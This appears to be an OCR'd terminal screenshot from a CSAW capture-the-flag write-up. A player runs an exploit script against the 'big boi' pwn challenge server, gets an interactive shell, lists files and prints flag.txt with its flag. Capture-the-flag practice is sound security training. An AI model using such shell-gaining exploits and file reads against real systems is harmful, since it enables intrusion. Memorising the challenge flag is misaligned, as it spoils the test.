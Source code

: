 (csaw) srimbp:csaw sri$ vi bigBoi.py
(csaw) srimbp:csaw sri$ python bigBoi.py 
[+] Opening connection to pwn.chal.csaw.io on port 9000: Done
 _    ___        ____   ___  _ _ _ _ 
| |__|_ _|__ _  | __ ) / _ \(_|_|_|_)
| '_ \| |/ _` | |  _ \| | | | | | | |
| |_) | | (_| | | |_) | |_| | | | | |
|_.__/___\__, | |____/ \___/|_|_|_|_|
         |___/                       
***************************************
Are you a big boiiiii?
?
[*] Switching to interactive mode
$ ls
ls
art.txt  boi  flag.txt    run.sh
$ cat flag.txt
cat flag.txt
flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
